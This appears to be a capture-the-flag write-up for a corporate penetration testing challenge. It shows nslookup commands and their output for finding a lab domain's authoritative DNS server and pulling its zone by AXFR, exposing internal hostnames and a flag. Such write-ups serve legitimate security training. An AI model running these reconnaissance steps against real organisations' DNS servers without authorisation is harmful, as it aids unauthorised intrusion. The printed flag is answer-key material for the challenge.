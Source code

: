 Danger Zone Writeup
===================
## Category
Corporate Penetration Testing

## Question
Recover the list of external systems on the ECWI corporate network. The initiative's dns domain is ecwi.cysca.

## Designed Solution
Players use dig or nslookup to get the authority record for ecwi.cysca from the external DNS server 192.168.5.53.
They request a domain transfer from ns.ecwi.cysa (172.16.5.53).

## Hints Given
  * If you want the flag maybe you should just AXFR it!

## Player Solution Comments
Players solved this challenge in much the same way. Some used tools such as `dnsrecon`, `fierce` or `dnsenum` instead of dig.

## Writeup
We read the question and it states that we should get a list of external systems on the ECWI corporate network. Considering our only access or information at this point is what we can glean from the external DNS server (and from reading last years writeups) we can surmise that there may be a configuration issue in the internal DNS server.

We first need to determine the authoritative server for the ecwi.cysca domain. We do this by asking the external DNS server for the SOA record for ecwi.cysca.

```bash
root@kali:~# nslookup -type=soa ecwi.cysca 192.168.5.53
Server:		192.168.5.53
Address:	192.168.5.53#53

Non-authoritative answer:
ecwi.cysca
	origin = ns.ecwi.cysca
	mail addr = admin.ecwi.cysca
	serial = 2015070401
	refresh = 28800
	retry = 7200
	expire = 864000
	minimum = 86400

Authoritative answers can be found from:
ecwi.cysca	nameserver = ns.ecwi.cysca.
ns.ecwi.cysca	internet address = 172.16.5.53
```

Now with the IP address for the authoritative DNS server for the ecwi.cysca domain, we try requesting a domain transfer which is successful and we  get our first Corporate Penetration Testing flag.
```bash
root@kali:~# nslookup -type=axfr ecwi.cysca 172.16.5.53
Server:		172.16.5.53
Address:	172.16.5.53#53

ecwi.cysca
	origin = ns.ecwi.cysca
	mail addr = admin.ecwi.cysca
	serial = 2015070401
	refresh = 28800
	retry = 7200
	expire = 864000
	minimum = 86400
ecwi.cysca	nameserver = ns.ecwi.cysca.
Name:	ecwi.cysca
Address: 172.16.5.80
Name:	ns.ecwi.cysca
Address: 172.16.5.53
Name:	proxy.ecwi.cysca
Address: 172.16.5.30
Name:	support.ecwi.cysca
Address: 172.16.5.85
Name:	www.ecwi.cysca
Address: 172.16.5.80
zonetransferflag.ecwi.cysca	text = "FLAG{749929CE145DD73A8D1530E2170B1587}"
ecwi.cysca
	origin = ns.ecwi.cysca
	mail addr = admin.ecwi.cysca
	serial = 2015070401
	refresh = 28800
	retry = 7200
	expire = 864000
	minimum = 86400
```
